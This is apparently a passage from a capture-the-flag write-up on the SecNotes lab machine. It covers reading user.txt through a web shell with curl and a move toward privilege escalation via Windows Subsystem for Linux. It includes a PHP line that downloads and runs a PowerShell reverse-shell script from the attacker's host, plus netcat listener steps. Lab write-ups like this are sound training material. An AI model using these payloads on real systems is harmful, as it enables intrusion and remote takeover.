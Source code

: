 Now in order to get user we just need to navigate the system and get the hash. One thing to keep in mind is that if you use *curl* like me you need to use URL encoding, otherwise it won't work. I finally got user.txt by executing the following:

```
curl http://secnotes:8808/test.php?cmd=more+%5cUsers%5ctyler%5cDesktop%5cuser.txt
```

### Privilege escalation (administrator)

I started doing manual enumeration and quickly found out a directory in the root directory called ``\distros``, which contained Ubuntu. I thought it was strange and googled for a while until I found out that there is a new feature in Windows 10 which lets you have a Linux subsystem inside your windows machine. It is called *Windows Subsystem for Linux (WSL)*, you can find mor information [here](https://blogs.msdn.microsoft.com/commandline/2017/10/11/whats-new-in-wsl-in-windows-10-fall-creators-update/).

I also found out that *bash* can be installed as well and commands can be run with the following:

```console
.\bash.exe -c "command"
```

I looked for it and indeed found out there was a bash executable in the ``\Windows\System32`` directory. However, when I tried to execute any command I wouldn't get any output. I really needed to get a proper shell.

#### Reverse shell

After a lot of php reverse shells which resulted in failed attempts I decided to try with PowerShell ones (``Invoke-PowerShellTcp.ps1``).

So the thing I did was the following.

1. Upload a php script that contains PowerShell code.
2. With that PowerShell code make a request to my server to get the PowerShell reverse shell.
3. Launch the PowerShell once it is in the system.
4. Listen on another port with netcat for an incoming connection.

The PHP code was:

```php
<?php system("powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.13.151:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.13.151 -Port 1234"); ?>
```

For that I needed to set up a python server to serve the reverse shell, make a curl request to execute the PHP script and then listen with netcat.

Guess what? It worked!

Now I can run the executable and get output back!

*Bash.exe*

![Img](/assets/posts_details/Secnotes/images/bash_works.png "Img")
